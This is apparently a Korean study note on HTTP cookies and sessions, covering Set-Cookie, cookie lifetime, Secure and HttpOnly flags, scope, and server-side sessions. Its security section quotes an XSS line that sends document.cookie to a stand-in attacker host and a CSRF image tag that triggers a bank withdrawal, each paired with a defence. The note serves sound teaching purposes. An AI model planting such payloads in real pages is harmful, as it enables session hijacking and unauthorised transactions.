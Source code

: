 쿠키와 세션은 HTTP 프로토콜의 특징(connectionless, stateless)을 보완하여 클라이언트 상태를 유지하는 방법 (ex. 로그인 정보)

## 쿠키🍪

> 서버가 사용자의 웹 브라우저에 전송하는 작은 데이터 조각

1. 클라이언트가 인증 정보를 입력한 후 서버에 전송
2. 서버에서 인증 정보를 검증한 후 이를 `Set-Cookie` 응답 헤더에 담아 전송 `Set-Cookie: <cookie-name>=<cookie-value>`
3. 브라우저는 응답받은 쿠키를 하드디스크에 저장해두고 동일한 서버에 요청할 때마다 `Cookie` 요청 헤더에 담아 전송

- 여러 개의 쿠키를 `;`로 구분하여 나열할 수 있다.
- 만료일 혹은 지속시간도 명시될 수 있고, 만료된 쿠키는 더이상 보내지 않는다.
- 주로 사용되는 상황
  - 세션 관리
  - 사용자 설정
  - 트래킹
  - 💡 모든 요청마다 쿠키가 전송되기 때문에 성능이 떨어지는 원인이 될 수 있다. 웹 스토리지 IndexedDB를 사용하는 것을 권장한다. 

### 쿠키의 라이프타임

- 세션 쿠키는 브라우저의 세션이 종료될 때 삭제된다.
- 영속 쿠키는 `Expires` 속성에 명시된 날짜에 삭제되거나, `Max-Age` 속성에 명시된 기간 이후 삭제된다.
- ex) Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;

### `Secure`과 `HttpOnly` 쿠키

- Secure 쿠키는 HTTPS 프로토콜 상에서 암호화된 요청일 경우에만 전송된다.
- XSS 공격을 방지하기 위해 `HttpOnly` 쿠키는 자바스크립트로 (document.cookie) 접근할 수 없다. 서버에 전송되기만 한다.

### 쿠키의 스코프

Domain
- 쿠키가 전송되게 될 호스트들을 명시한다.
- 명시되지 않는다면 현재 문서 위치의 호스트 일부를 기본값으로 한다.
- 명시되면 서브도메인들을 포함한다. 만약 Domain=mozilla.org이 설정되면 쿠키들은 developer.mozilla.org와 같은 서브도메인에 포함된다.

Path
- Cookie 헤더를 전송하기 위하여 요청되는 URL 내에 반드시 존재해야 하는 URL 경로
- 만약 Path=/docs이 설정되면 다음의 경로들은 모두 매치된다.
   - /docs, /docs/Web/, /docs/Web/HTTP

## 세션

> 클라이언트의 인증 정보를 서버에 저장하는 방식

1. 클라이언트가 인증 정보를 입력한 후 서버에 전송
2. 서버에서 인증 정보를 검증한 후 세션 아이디를 생성하여 `Set-Cookie` 응답 헤더에 담아 전송
3. 브라우저는 매 요청마다 세션 아이디를 `Cookie` 요청 헤더에 담아 전송

- 사용자 정보를 서버 측에 저장하므로 보안 수준을 높일 수 있다.
- 서버의 자원을 사용한다. 메모리 차지, 동시 접속자가 많은 경우 부하 증가
- 서버 확장(scale out)시 문제가 발생한다.

## 보안 문제

### XSS와 세션 하이재킹

- XSS 취약점을 이용하여 쿠키를 가로챌 수 있다. 이를 통해 클라이언트로 위장할 수 있음.
- ✅ HttpOnly 속성을 통해 자바스크립트를 통해 쿠키 값에 접근하는 것을 막을 수 있다.

```jsx
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

### 사이트간 요청 위조 (CSRF)

- 특정 웹 사이트에 공격자가 의도한 행위를 요청하게 할 수 있다.
- ✅ 민감한 동작에 사용되는 쿠키는 만료 시간을 짧게 설정한다.

```jsx
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies
https://www.daleseo.com/http-session/